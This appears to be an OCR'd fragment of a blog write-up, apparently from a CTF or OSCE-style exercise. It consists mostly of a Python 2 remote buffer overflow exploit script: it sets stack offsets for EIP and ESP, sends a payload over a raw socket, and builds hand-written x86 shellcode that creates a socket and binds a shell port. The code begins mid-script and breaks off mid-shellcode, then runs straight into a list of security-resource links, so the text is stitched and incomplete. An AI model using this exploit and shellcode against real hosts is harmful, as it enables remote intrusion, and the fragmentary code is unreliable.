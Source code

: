 target = targets[int(sys.argv[1])]
host = sys.argv[2]
port = int(sys.argv[3])
payload_file = sys.argv[4]

def read_file(path):
  with open(path, 'r') as f:
    return f.read()

def pwn(payload, port, recv = True):
  print "[*] Sending {0} bytes to {1}:{2}...".format(len(payload), host, port)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((host, port))
  if recv:
    s.recv(2048)
  s.send(payload)
  s.shutdown
  s.close

max_size = 365

offsets = {
  'SC': 266,
  'EIP': 294,
  'ESP': 302,
}

print "[*] Attacking {0}:{1} ...".format(host, port)

block1  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
block1 += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
block1 += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
block1 += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
block1 += "\xB0\x06"                           # MOV AL, 0x6
block1 += "\x50"                               # PUSH EAX
block1 += "\xB0\x01"                           # MOV AL, 0x1
block1 += "\x50"                               # PUSH EAX
block1 += "\x40"                               # INC EAX
block1 += "\x50"                               # PUSH EAX
# invoke the call to `socket`
block1 += "\xFF\xD3"                           # CALL EBX
# save our socket handle
block1 += "\x89\xC7"                           # MOV EDI, EAX
# Find sockaddr
block1 += "\x89\xD9"                           # MOV ECX, EBX
block1 += "\xB5\x74"                           # MOV CH, 0x74
# adjust the port number by bumping it up one to 22
block1 += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
# adjust the call pointer to reference `bind`

  [OSCE]: http://buffered.io/posts/osce-and-me/
  [ExploitDB]: http://exploit-db.com/
  [Corelan]: https://www.corelan.be/
  [Fuzzy Security]: http://www.fuzzysecurity.com/
  [CTF]: https://en.wikipedia.org/wiki/Capture_the_flag
  [ShellStorm]: http://www.shell-storm.org/
  [Ammar]: http://clog.ammar.web.id/2013/06/idsecconf-2013-ctff-offline-challenge.html
  [idsecconf]: http://2013.idsecconf.org/
  [Meterpreter]: https://github.com/rapid7/meterpreter
  [Immunity Debugger]: https://www.immunityinc.com/products-immdbg.shtml
  [Mona.py]: http://redmine.corelan.be/projects/mona
  [Corelanc0d3r]: https://twitter.com/corelanc0d3r
  [muts]: https://twitter.com/kalilinux